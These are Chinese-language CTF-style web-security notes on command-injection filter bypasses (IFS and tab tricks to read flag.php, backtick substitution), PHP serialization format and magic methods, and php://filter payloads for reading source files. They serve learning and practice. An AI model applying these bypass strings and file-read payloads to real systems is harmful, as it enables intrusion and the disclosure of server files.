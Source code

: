 ### 绕过技巧



https://blog.csdn.net/weixin_39190897/article/details/116247765

这篇文章很不错





##### 空格被过滤

$IFS为linux中的空格

```
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）

```

##### 内联绕过

```
cat$IFS$9`ls`
ls结果是index.php flag.php

反引号把输出内容作为输入
结果就是index.php flag.php的内容了。
```





### 反序列化

##### php反序列化

###### 缩写对应类型

```
缩写对应类型
a - array         b - boolean
d - double         i - integer
o - common object     r - reference
s - string         C - custom object
O - class         N - null
R - pointer reference   U - unicode string
```

###### serialize()

```
序列化后 
O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"daye";}
对象类型：长度：“类名”：类中变量个数：{类型：长度：“变量名”;值类型:值;类型：长度：“变量名”;值类型：值}
```

###### unserialize()

```
反序列化
```

###### 魔法函数

__双下划线开头被称为魔法函数

```
__construct  当一个对象创建时被调用，
__destruct  当一个对象销毁时被调用，
__toString  当一个对象被当作一个字符串被调用。
__wakeup()  使用unserialize时触发
__sleep()  使用serialize时触发
__destruct()  对象被销毁时触发
__call()  在对象上下文中调用不可访问的方法时触发
__callStatic()  在静态上下文中调用不可访问的方法时触发
__get()  用于从不可访问的属性读取数据
__set()  用于将数据写入不可访问的属性
__isset()  在不可访问的属性上调用isset()或empty()触发
__unset()   在不可访问的属性上使用unset()时触发
__toString()  把类当作字符串使用时触发,返回值需要为字符串
__invoke()  当脚本尝试将对象调用为函数时触发
```

其他魔法函数 具体见https://www.php.net/manual/zh/language.oop5.magic.php

### 文件包含 

##### 

#### php伪协议

```
file://
http://
ftp://
php://
zip://
data://
.
.

```

##### php://输入输出流



##### php://filter

需要开启allow_url_fopen,不需要开启allow_url_include

###### 转换过滤器

```
?filename=php://filter/convert.x/resource=flag.php
x替换为编码
x=
{
base64-encode
base64-decode
quoted-printable-encode
quoted-printable-decode

iconv.(input encoding).(output encoding)
iconv.(input encoding)/(output encoding)
iconv{
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*}
}



}
```





### 文件上传

